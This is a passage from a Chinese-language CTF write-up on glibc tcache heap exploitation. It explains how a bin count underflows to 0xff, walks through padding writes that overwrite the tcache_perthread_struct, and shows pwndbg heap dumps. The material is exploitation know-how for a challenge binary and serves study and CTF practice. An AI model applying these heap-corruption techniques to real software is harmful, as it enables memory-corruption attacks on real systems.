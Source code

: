 ```c
empty
pwndbg> 
```

从上面可以看到，申请两个堆块完成之后，tcachebins中的0x60链的数目变为-1（0xff）。由于它是无符号的，因此负数将被解释为一个较大的正数（在这种情况下，可能是0xff），这将使该tcache bin似乎已满。这将阻止我们进行tcache_poisoning。

> [https://faraz.faith/2019-10-20-secconctf-2019-one/](https://faraz.faith/2019-10-20-secconctf-2019-one/)
>

---

假如说tcache是这样的：

0x?? [  1]: chunk1_data_addr —▸ chunk2_data_addr ◂— ...

那么malloc两次之后，将会申请chunk2_data_addr的内存：

0x?? [ -1]: 0

可以得出一个猜测：

若chunk1_data_addrde next指针指向的是一个有效并且合法的内存地址，当第二次malloc时，会申请到chunk2_data_addr的地址，无论在malloc后其链对应的tcache_bin_count为-1（0xff）

---

```c
edit(3, 'a' * 0x28)
```

接下来向其中写入padding

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x251

Allocated chunk | PREV_INUSE
Addr: 0x555555757250
Size: 0x61

Top chunk | PREV_INUSE
Addr: 0x5555557572b0
Size: 0x20d51

pwndbg> x/100gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x555555757010:	0x6161616161616161	0x6161616161616161
0x555555757020:	0x6161616161616161	0x6161616161616161
0x555555757030:	0x6161616161616161	0x000000000000000a
.......(省略内容均为空)
0x555555757250:	0x0000000000000000	0x0000000000000061
0x555555757260:	0x0000555555757010	0x000000000000000a
.......(省略内容均为空)
0x5555557572b0:	0x0000000000000000	0x0000000000020d51 #top_chunk
.......(省略内容均为空)
0x555555757310:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x555555756060
0x555555756060:	0x0000005000000000	0x0000005000000050
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000555555757260	0x0000555555757260
0x555555756090:	0x0000555555757260	0x0000555555757010
    								#chunk3
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
```